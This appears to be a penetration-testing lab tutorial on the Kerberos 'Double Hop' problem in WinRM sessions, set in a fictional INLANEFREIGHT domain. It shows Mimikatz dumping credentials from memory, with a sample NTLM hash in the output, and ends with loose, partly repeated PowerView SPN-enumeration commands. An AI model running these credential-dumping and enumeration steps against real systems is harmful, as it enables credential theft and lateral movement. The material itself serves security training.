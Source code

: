 # Kerberos "Double Hop" Problem

There's an issue known as the "Double Hop" problem that arises when an attacker attempts to use Kerberos authentication across two (or more) hops. The issue concerns how Kerberos tickets are granted for specific resources. Kerberos tickets should not be viewed as passwords. They are signed pieces of data from the KDC that state what resources an account can access. When we perform Kerberos authentication, we get a "ticket" that permits us to access the requested resource (i.e., a single machine). On the contrary, when we use a password to authenticate, that NTLM hash is stored in our session and can be used elsewhere without issue.

***

## Background

The "Double Hop" problem often occurs when using WinRM/Powershell since the default authentication mechanism only provides a ticket to access a specific resource. This will likely cause issues when trying to perform lateral movement or even access file shares from the remote shell. In this situation, the user account being used has the rights to perform an action but is denied access. The most common way to get shells is by attacking an application on the target host or using credentials and a tool such as PSExec. In both of these scenarios, the initial authentication was likely performed over SMB or LDAP, which means the user's NTLM Hash would be stored in memory. Sometimes we have a set of credentials and are restricted to a particular method of authentication, such as WinRM, or would prefer to use WinRM for any number of reasons.

The crux of the issue is that when using WinRM to authenticate over two or more connections, the user's password is never cached as part of their login. If we use Mimikatz to look at the session, we'll see that all credentials are blank. As stated previously, when we use Kerberos to establish a remote session, we are not using a password for authentication. When password authentication is used, with PSExec, for example, that NTLM hash is stored in the session, so when we go to access another resource, the machine can pull the hash from memory and authenticate us.

Let's take a quick look. If we authenticate to the remote host via WinRM and then run Mimikatz, we don't see credentials for the `backupadm` user in memory.

```powershell
PS C:\htb> PS C:\Users\ben.INLANEFREIGHT> Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm
[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 45177 (00000000:0000b079)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:32 PM
SID               : S-1-5-96-0-1
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
```

[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname